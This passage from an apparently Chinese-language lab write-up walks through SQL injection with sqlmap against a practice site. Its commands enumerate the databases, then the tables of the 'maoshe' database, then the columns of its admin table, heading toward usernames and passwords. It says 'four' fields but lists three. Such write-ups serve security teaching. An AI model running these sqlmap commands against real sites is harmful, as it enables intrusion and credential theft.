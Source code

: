 这一步是扫出网站数据库名

结果如下：

![](https://pic1.imgdb.cn/item/6472b97ff024cca17306c56f.jpg)

从sqlmap扫到的数据库名来看我们得到了三个数据库名：

- `information_schema`
- `maoshe`
- `test`



文章开头提到的，在 MySQL5.0 版本后，MySQL 默认在数据库中存放一个`information_schema`的数据库

`test`数据库是MySQL系统默认安装时自带的一个数据库名，它通常用于进行测试和示例目的，而不是用于实际的生产环境

于是我们得到了网站的数据库名为：` maoshe`

> ```
> sqlmap.py -u "http://xxxxxxx?id=1" --current-db
> ```
>
> 可以直接输出网站当前数据库，当时我不知道 ╥﹏╥



接下来要去扫`maoshe`数据库下的表名，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" -D maoshe --tables
```

结果如下：

![](https://pic1.imgdb.cn/item/6472bd3df024cca1730a7469.jpg)

从sqlmap扫到的数据库名来看我们得到了四个数据表名：

- `admin`
- `dirs`
- `news`
- `xss`



接下来是查询`admin`表下有哪些字段名，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" -D maoshe -T admin --columns
```

结果如下：

![](https://pic1.imgdb.cn/item/6472c186f024cca17310f399.jpg)

从sqlmap扫到的字段(列)名来看我们得到了四个字段名：

- `Id`
- `username`
- `password`
